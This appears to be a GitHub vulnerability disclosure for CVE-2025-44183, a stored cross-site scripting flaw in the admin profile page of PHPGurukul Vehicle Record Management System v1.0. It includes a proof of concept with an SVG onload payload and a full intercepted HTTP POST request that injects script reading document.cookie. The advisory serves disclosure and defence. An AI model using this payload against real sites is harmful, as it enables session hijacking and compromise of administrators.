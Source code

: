 # Vehicle-Record-Management-System
XSS vulnerability to Vehicle Record Management System
# CVE-2025-44183-Phpgurukul-Vehicle-Record-Management-System-v1.0-Stored-Cross-Site-Scripting-Vulnerability
+ Exploit Author: nscerol
# Vendor Homepage
+ https://phpgurukul.com/vehicle-record-system-using-php-and-mysql/
# Software Link
+ https://phpgurukul.com/?sdm_process_download=1&download_id=19587
# Overview
+ PHPGurukul Vehicle Record Management System is susceptible to a critical security vulnerability involving Stored Cross-Site Scripting (XSS) through name, email and mobile parameter in the //admin/profile.php file. The application fails to adequately sanitize user-supplied data, allowing attackers to inject malicious scripts into the application. This could lead to the execution of arbitrary script code in the browsers of unsuspecting users, potentially compromising their security and privacy within the context of the affected site.
# Vulnerability Details
+ CVE ID: CVE-2025-44183
+ Affected Version: PHPGurukul Vehicle Record Management System V1.0
+ Vulnerable File: /admin/profile.php
+ Parameters: name, email and mobile
# References:
+ https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-44183
+ https://nvd.nist.gov/vuln/detail/CVE-2025-44183
# Description
+ The parameters 'name, email and mobile' in the /admin/profile.php file of PHPGurukul Vehicle Record Management System V1.0 are susceptible to Stored Cross-Site Scripting (XSS). This vulnerability arises due to insufficient input validation and sanitation of user-supplied data. An attacker can exploit this weakness by injecting malicious scripts into these parameters, which, when stored on the server, may be executed when other users view the affected user's profile.
# Proof of Concept (PoC) : 
+ Go to the admin profile section
+ Click Update button
+ Intercept the POST request to /admin/profile.php via Burp Suite
+ Inject the payload to the vulnerable parameters
+ Payload: `"><svg/onload=alert(document.domain)>`
+ Example request for `name` parameter
```
POST /vehiclerecordsystem/admin/profile.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:138.0) Gecko/20100101 Firefox/138.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 127
Origin: https://localhost
Connection: keep-alive
Referer: https://localhost/vehiclerecordsystem/admin/profile.php
Cookie: PHPSESSID=hvah0765vcec9jtep84vlv5eeh
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

name=Administrator%22%3E%3Csvg%2Fonload%3Dalert%28document.cookie%29%3E&email=admin%40gmail.com&mobile=1234567890&submit=Update
```
+ Go to the Admin Profile section and trigger the XSS -->
+ <img width="748" alt="image" src="https://github.com/user-attachments/assets/5eb4b714-0698-4dd2-9f4e-4f6c7bb31973" />
